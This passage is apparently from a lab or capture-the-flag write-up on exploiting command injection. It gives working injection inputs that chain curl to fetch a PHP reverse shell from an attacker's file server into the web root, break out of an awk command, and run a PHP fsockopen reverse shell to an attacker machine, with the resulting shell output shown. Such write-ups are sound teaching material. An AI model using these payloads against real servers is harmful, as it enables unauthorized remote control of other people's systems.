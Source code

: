    > Serving HTTP on 0.0.0.0 port 8080 (http[://]0.0.0.0:8080/) ...  
   > 172.18.0.4 - - [27/Jul/2025 17:38:50] "HEAD /link.php HTTP/1.1" 200 -  
   > 172.18.0.4 - - [27/Jul/2025 17:39:57] "HEAD /link.php HTTP/1.1" 200 -  
3. Tried to use `&&` and `curl` this time to download the file.
   ~~~
   Input = https://google.com && curl <File_Hosting_Server_IP>:8080/link.php > /var/www/html/link.php  
   # Download the php reverse shell to the target server directory.
   ~~~
4. Search http[://]link.php from our browser, and we will trigger the web server to execute our php shell.
   > $ whoami  
   > www-data
    
## Challenge-1
Here’s the syntax of the Web application
Command syntax: awk 'BEGIN {print sqrt(((-`User_input_1`)^2) + ((-`User_input_2`)^2))}’
1. Close up the brackets in User_input_1, then injects the command, and comment out the rest.
   ~~~
   Input = )))}' ; whoami #
   ~~~
   > Result: www-data

2. Because the page is run off the php file, let out full path of its php
   ~~~
   Input = )))}' ; which php #
   ~~~
   > Result: /usr/local/bin/php

3. Use netcat listen on port 4444. Run the one line php shell for connection
   ~~~
   Input = )))}' ; /usr/local/bin/php -r '$sock=fsockopen("<Attacking_Machine>",4444); exec("/bin/sh -i <&3 >&3 2>&3");' #
   ~~~
   > Result:  
   > Listening on 0.0.0.0 4444  
   > Connection received on 172.18.0.4 56914  
   > /bin/sh: 0: can't access tty; job control turned off  
   > $ whoami  
   > www-data  
   > $ hostname  
   > 3d0a80465781  
